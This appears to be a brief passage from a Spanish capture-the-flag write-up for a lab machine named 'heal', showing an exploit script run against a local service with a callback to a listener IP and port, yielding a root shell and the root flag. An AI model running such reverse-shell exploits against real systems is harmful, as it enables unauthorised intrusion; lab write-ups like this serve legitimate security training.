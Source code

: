 Ejecuté el exploit con el comando

```sh
python3 exploit.py localhost 8500 10.10.16.63 4444 0
```

![alt text](../assets/images/heal/image-68.png)

Y en la ventana del listener obtuve una shell con usuario root en la maquina objetivo.

![alt text](../assets/images/heal/image-69.png)

Accedí a la carpeta root y obtuve la **flag de root**

